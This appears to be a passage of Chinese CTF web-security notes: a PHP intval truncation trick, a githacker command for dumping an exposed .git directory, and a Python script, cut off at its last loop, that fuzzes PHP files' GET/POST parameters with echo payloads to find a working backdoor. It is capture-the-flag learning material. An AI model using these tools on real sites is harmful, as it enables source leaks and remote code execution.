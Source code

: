 1.  php 5 intval特性：intval会截断科学计数法下的字符串，但当以科学计数法表示的字符串进行运算后便不会截断，会返回其运算后的值。例题：[[WUSTCTF2020]朴实无华](https://github.com/C0nstellati0n/NoobCTF/blob/main/CTF/BUUCTF/Web/%5BWUSTCTF2020%5D%E6%9C%B4%E5%AE%9E%E6%97%A0%E5%8D%8E.md)
2.  githacker基本命令
- githacker --url http://example.com/.git --output-folder ./output

1.  多文件内寻找可用shell脚本。今天遇见一道题，整个网站全是后门文件，然而只有一个是有用的。算是fuzz题的变种，可以用以下多线程脚本找到。

```python
import os
import requests
import re
import threading
import time

print('开始时间： '+ time.asctime(time.localtime(time.time()))) 
s1 = threading.Semaphore(100)
filePath = r"src"
os.chdir(filePath)
requests.adapters.DEFAULT_RETRIES = 5
files = os.listdir(filePath)
session = requests.Session()
session.keep_alive = False
def get_content(file):
    s1.acquire()
    print('tring  '+file+'   '+time.asctime(time.localtime(time.time())))
    with open(file,encoding='utf-8') as f:
        gets = list(re.findall('\$_GET\[\'(.*?)\'\]',f.read()))
        posts = list(re.findall('\$_POST\[\'(.*?)\'\]',f.read()))
    data = {}
    params = {}
    for m in gets:
        params[m] = "echo '123456';"
    for n in posts:
        data[n] = "echo '123456';"
    url = "此处填本地网站地址" +file  #远程的也能post和get到，但是不知道为啥fuzz不出来
    req = session.post(url,data=data,params=params)
    req.close()
    req.encoding = 'utf-8'
    content=req.text
    if '123456' in content:
        flag = 0
        for a in gets:
            req = session.get(url+'?%s='%a+"echo '123456';")
            content =req.text
            req.close()
            if "123456" in content:
                flag = 1
                break
        if flag != 1:
            for b in posts:
                req = session.post(url, data={b:"echo '123456';"})
                content =req.text
                req.close()
                if "123456" in content:
                    break
        if flag == 1:
            params = a
        else:
            params = b
        print('找到了利用文件： ' + file +"  and 找到了利用的参数：%s" %params)
        print('结束时间： '+time.asctime(time.localtime(time.time())))
    s1.release()

for i in files:
```